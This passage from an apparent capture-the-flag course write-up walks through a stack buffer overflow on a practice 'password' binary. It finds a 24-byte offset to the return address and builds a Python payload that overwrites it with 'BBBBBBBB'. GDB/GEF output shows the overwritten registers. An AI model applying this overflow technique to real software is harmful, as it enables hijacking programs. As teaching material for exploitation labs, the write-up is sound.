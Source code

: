 This takes some trial and error, but after some time, we can figure out that the program does not crash after 23 A's, but it does crash after 24 A's. This tells us that the return address appears 24 bytes after the start of the buffer, and we need to type at least 24 bytes before we can set the return address. If, for example, we type out a bunch of B's after 24 A's, then the return address will be set equal to 0x4242424242424242 (ASCII code for eight B's).

```sh
$ python3 -c "import sys; sys.stdout.buffer.write(b'A'*24 + b'BBBBBBBB')" > test

$ gdb password
GNU gdb (Debian 10.1-1.4) 10.1
Copyright (C) 2020 Free Software Foundation, Inc.
License GPLv3+: GNU GPL version 3 or later <http://gnu.org/licenses/gpl.html>
This is free software: you are free to change and redistribute it.
There is NO WARRANTY, to the extent permitted by law.
Type "show copying" and "show warranty" for details.
This GDB was configured as "x86_64-linux-gnu".
Type "show configuration" for configuration details.
For bug reporting instructions, please see:
<https://www.gnu.org/software/gdb/bugs/>.
Find the GDB manual and other documentation resources online at:
    <http://www.gnu.org/software/gdb/documentation/>.

For help, type "help".
Type "apropos word" to search for commands related to "word"...
GEF for linux ready, type `gef' to start, `gef config' to configure
76 commands loaded for GDB 10.1 using Python engine 3.9
[*] 4 commands could not be loaded, run `gef missing` to know why.
Reading symbols from password...
(No debugging symbols found in password)
gef➤  run < test
Starting program: /home/nihaal/Desktop/ctf-courses/Pwn/PWN 200/password < test
Enter the password: Invalid password.

Program received signal SIGSEGV, Segmentation fault.
0x0000555555555206 in main ()
[ Legend: Modified register | Code | Heap | Stack | String ]
────────────────────────────────────────────────────────────────────────────────────────────────── registers ────
$rax   : 0x0
$rbx   : 0x0
$rcx   : 0x00007ffff7edded3  →  0x5577fffff0003d48 ("H="?)
$rdx   : 0x0
$rsp   : 0x00007fffffffdfb8  →  "BBBBBBBB"
$rbp   : 0x4141414141414141 ("AAAAAAAA"?)
$rsi   : 0x00005555555592a0  →  "Enter the password: Invalid password.\n"
$rdi   : 0x00007ffff7fb0670  →  0x0000000000000000
$rip   : 0x0000555555555206  →  <main+114> ret
$r8    : 0x12
$r9    : 0x00007ffff7fadbe0  →  0x000055555555a6b0  →  0x0000000000000000
$r10   : 0x00007ffff7feeb70  →  <strcmp+2864> pxor xmm0, xmm0
$r11   : 0x246
$r12   : 0x0000555555555090  →  <_start+0> xor ebp, ebp
$r13   : 0x0
$r14   : 0x0
$r15   : 0x0
$eflags: [ZERO carry PARITY adjust sign trap INTERRUPT direction overflow RESUME virtualx86 identification]
$cs: 0x0033 $ss: 0x002b $ds: 0x0000 $es: 0x0000 $fs: 0x0000 $gs: 0x0000
────────────────────────────────────────────────────────────────────────────────────────────────────── stack ────
0x00007fffffffdfb8│+0x0000: "BBBBBBBB"   ← $rsp
0x00007fffffffdfc0│+0x0008: 0x00007fffffffe000  →  0x0000000000000000
0x00007fffffffdfc8│+0x0010: 0x0000000100000000
```